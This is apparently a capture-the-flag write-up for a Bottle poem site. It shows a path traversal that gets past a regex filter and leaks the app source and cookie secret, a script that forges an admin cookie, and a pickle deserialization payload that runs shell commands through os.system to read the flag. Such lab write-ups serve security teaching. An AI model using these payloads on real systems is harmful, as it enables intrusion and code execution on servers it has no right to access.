






# description

we're given a simple site, it contains 3 links, when clicking on them it take us to a page where we can read the poem


# solution

examining the http request, each link send request to the `/show` endpoint with the variable `id`


the value of `id` is a filename, so let's try if the server has a lfi vulnerability



the server is indeed vulnerable, and after multiples tries, i was able to leak the source code of the server, if was allocated in `../app.py`, but `../app.py` allone won't work because there is a filter, and to skip it you just need to add `./` at the front



```py
from bottle import route, run, template, request, response, error
from config.secret import Vishwa
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=Vishwa)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=Vishwa)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=80)
```

now that we have the source code, we can see another endpoint `/sign` which checks the cookie if the user is a guest or an admin, and from the imports we can see that the secret used to generate the cookie is allocated in a file called `secret.py` in the `config` folder, we can easily leak it


now let's create a simple script that generate an admin cookie

```py
from bottle import route, run, template, request, response, error

@route('/')
def index():
    session = {"name": "admin"}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

we run the script then visit `localhost:8080`


using this cookie to send a request to `/sign` made us authenticate as admin, we didn't get the flag, after reading some documentations about bottle and the template engin it uses, the default folder where the templates are placed is `views`, i then leaked templates





i tried to test if i could enject a command in the name variable using template injection vulerbility, but that won't work since `name` should be eather `"guest"` or `"admin"` in order for the server to generate the template.

after some searching, i found that bottel uses the pickel python module to serialize the data, which mean the server is vulnerable to deserialization.

```py
from bottle import route, run, template, request, response, error

class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("ls -al > /tmp/test",))

Vishwa = "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd"

@route('/')
def index():
    session = {"name": exploit()}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

after running this and send the malicious cookie to the `/sign` end point then leaking `/tmp/test` file, we finaly obtain a result


we find that there is a `flag` file in the `/` directory, it only has executing permisions



and by executing it and redirecting the output to `/tmp/test` we obtain the flag

```py
class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("/flag > /tmp/test",))
```


